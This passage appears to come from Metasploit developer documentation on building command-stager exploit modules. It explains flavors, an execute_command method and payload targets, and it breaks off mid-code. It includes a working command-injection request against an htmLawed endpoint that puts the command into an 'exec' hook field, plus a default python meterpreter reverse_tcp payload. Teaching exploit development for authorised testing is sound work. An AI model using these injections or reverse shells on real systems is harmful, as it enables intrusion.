 Or, you can pass this info to the `execute_cmdstager` method (see Step 4 to begin).

```ruby
execute_cmdstager(flavor: :vbs)
```

However, it is best to set the compatible list of flavors in `CmdStagerFlavor`, rather than hard-coding the flavor in the `execute_cmdstager` method call, as this allows the operator to choose a flavor from `msfconsole` with `set CmdStager::flavor`


**3. Create the execute_command method**

You also must create a ```def execute_command(cmd, opts = {})``` method in your module. This is how you define how to execute a command on the target.  The parameter `cmd` is the command to execute.  When writing the ```execute_cmd``` method, remember that a great deal of work might already be done for you.  Here is an example of a web host that executes a command as part of a request:
```ruby
  def execute_command(cmd, _opts = {})
    populate_values if @sid.nil? || @token.nil?
    uri = datastore['URIPATH'] + '/vendor/htmlawed/htmlawed/htmLawedTest.php'

    send_request_cgi({
      'method' => 'POST',
      'uri' => normalize_uri(uri),
      'cookie' => 'sid=' + @sid,
      'ctype' => 'application/x-www-form-urlencoded',
      'encode_params' => true,
      'vars_post' => {
        'token' => @token,
        'text' => cmd,
        'hhook' => 'exec',
        'sid' => @sid
      }
    })
  end
```
Since the command is encapsulated within a request, it will be encoded for us.  When building and debugging an execute_command method that uses web requests, remember that `set httptrace true` will automatically display the http traffic as it is sent and received.

**4. Decide on the supported payloads**

CmdStagers are intended to support payloads that are uploaded, saved to disk, and launched, but many of the payloads in Metasploit Framework do not need to be saved to disk; these payloads are `ARCH_CMD` payloads that rely on software already present on the target system like `netcat`, `bash`, `python`, or `ssh`.  Depending on whether the payload needs to be saved to disk or not changes what payloads are supported and how we launch the payload, so we must provide the user the ability to pick between the two.
The best way to let the user decide what kind of payload to use is by defining separate [[targets|Get-Started-Writing-an-Exploit.md]]

Here is an example targets section from a command injection module:

```
    'Targets' => [
      [
        'Unix Command',
        {
          'Platform' => 'unix',
          'Arch' => ARCH_CMD,
          'Type' => :unix_cmd,
          'DefaultOptions' => {
            'PAYLOAD' => 'cmd/unix/python/meterpreter/reverse_tcp',
            'RPORT' => 9000
          }
        }
      ],
      [
```